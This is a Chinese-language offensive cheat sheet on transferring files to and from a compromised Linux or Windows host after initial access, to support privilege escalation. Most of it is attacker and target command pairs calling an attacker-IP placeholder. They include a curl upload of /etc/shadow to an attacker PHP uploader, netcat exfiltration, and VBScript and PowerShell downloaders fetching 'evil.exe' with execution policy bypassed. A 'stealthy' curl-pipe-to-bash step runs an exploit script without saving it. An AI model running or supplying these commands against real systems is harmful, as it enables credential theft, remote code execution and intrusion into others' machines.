 ```yaml
---
description: 在目标系统中已经成功建立立足点后，需要传输一些脚本到目标系统中，以实现后续的提权操作
---
```


# ✔️ Linux文件传输 - Linux File Transfers

## 常规方式

### 利用Python传输：

```bash
// Attacker
python3 -m http.server 8888
```

```bash
// Target
wget http://攻方IP:8888/利用脚本.sh
chmod +x 利用脚本.sh
利用脚本.sh
```

### 利用Apache2传输：

```
// Attacker
1. 准备好upload.php文件，放在/var/www/html目录下；
2. 同时在/var/www/html目录下再创建一个/uploads目录，用于存放稍后从目标系统中传回的敏感文件；
```

```bash
// Target
curl --form "uploadedfile=@/etc/shadow" http://攻方IP/upload.php
```

```php
// upload.php
<?php  
$target_path = "uploads/";
$target_path = $target_path.basename($_FILES['uploadedfile']['name']);

echo "Source=".$_FILES['uploadedfile']['name']."<br/>";
echo "Target path=".$target_path."<br/>";
echo "Size=".$_FILES['uploadedfile']['size']."<br/>";

if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)){
	echo "The file".basename($_FILES['uploadedfile']['name'])."has been uploaded";
}else{
	echo "There was an error uploading the file,please try again!"
}

?>
```

### 利用Netcat传输

```bash
// Attacker
nc -lvp 1234 > 传回的文件名 
```

```bash
// Target
nc 攻方IP 1234 < 待传回的文件名
```

### 利用FTP传输

#### 方法1：

```bash
// Attacker
sudo python3 -m pyftpdlib  -p 21 -w
python -m pyftpdlib -p 21
```

```bash
// Target
ftp -A 攻方IP
dir               # 查找要传到目标上的程序，本例为：winPEAS.exe
get winPEAS.exe
bye
```

#### 方法2：

```bash
// Attacker
cp /usr/share/.../nc.exe /ftphome/
systemcrl restart pure-ftpd
```

```bash
// Target
echo open 攻方IP >> ftp.txt
echo USER 用户名 >> ftp.txt
echo 密码 >> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

// 执行ftp.txt
ftp -v -n -s:ftp.txt
```

### 利用SCP传输

使用 SCP（Secure Copy Protocol）在 Linux 系统中进行文件传输时，实际上是在通过 SSH 连接进行加密传输。

```bash
// 格式
scp 待传输文件的路径 目标用户命@目标IP:传输后保存的路径
scp /path/to/local/file username@remote_host:/path/to/destination
```

#### 将文件上传到目标主机

```bash
// Attacker
scp example.txt username@remote_host:/home/username/
scp /path/to/local/file username@remote_host:/path/to/destination
```

* `/path/to/local/file`：本地系统上要传输的文件的路径
* `username`：远程系统上的用户名
* `remote_host`：远程系统的主机名或 IP 地址
* `/path/to/destination`：远程系统上存储文件的目标路径

#### 将目标主机中的文件下载到本地

```bash
// Attacker
scp username@remote_host:/path/to/remote/file /path/to/local/destination
scp username@remote_host:/home/username/example.txt /path/to/local/destination
```

* `/path/to/local/file`：本地系统上要传输的文件的路径
* `username`：远程系统上的用户名
* `remote_host`：远程系统的主机名或 IP 地址
* `/path/to/destination`：远程系统上存储文件的目标路径

### SCP + SSH

若已经配置了 SSH 密钥认证，则可以免去输入密码的步骤。在执行 SCP 命令时，系统会自动使用 SSH 密钥进行认证。









### 利用SMB客户端传输

前提条件：**已安装smbclient**

```bash
// 格式：
smbclient //server_ip/share_name -U username
```

启动了一个 SMB 服务器，允许其他设备通过 SMB 协议与之通信，并在本地文件系统的当前目录下共享文件（本例为 "liodeus"）：

```bash
// Attacker
sudo smbserver.py -smb2support liodeus .
```

```bash
// Target
smbclient //攻方IP/liodeus -U 用户名
// 连接成功后，查找对应文件，并下载到目标本机中(本例为 "liodeus")：
ls
get liodeus
// 还可以从目标机器里上传文件到攻方SMB服务器：
put 文件名
quit
```

### 利用VBScript传输

该脚本适用于VBScript：Windows XP / Windows 2003&#x20;

```powershell
// Target
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wge
t.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.
vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

<pre class="language-powershell"><code class="lang-powershell">// Target
<strong>cscript wget.vbs http://攻方IP/evil.exe evil.exe
</strong></code></pre>

该脚本适用于Powershell：Windows 7 / Windows 2008 / 及以上版本

```powershell
// Target
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://攻方IP/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

// 设置wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

// 执行wget.ps1
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://攻方IP/evil.exe', 'new-exploit.exe')
```

* `powershell.exe`: 启动 PowerShell 解释器。
* `-ExecutionPolicy Bypass`: 设置脚本执行策略为 Bypass，即绕过执行策略限制，允许执行未签名的脚本。
* `-NoLogo`: 执行时不显示 PowerShell 的启动标志。
* `-NonInteractive`: 设置为非交互模式，即不会提示用户进行任何交互操作。
* `-NoProfile`: 在执行过程中不加载 PowerShell 用户配置文件。
* `-File wget.ps1`: 指定要执行的 PowerShell 脚本文件，这里假设文件名为 wget.ps1。

## 隐蔽

## 方式

```bash
// Attacker
python3 -m http.server 8888
```

```
// Target
curl http://攻方IP:8888/利用脚本.sh | bash
```

MEMO：该利用脚本不会被保存在目标系统中
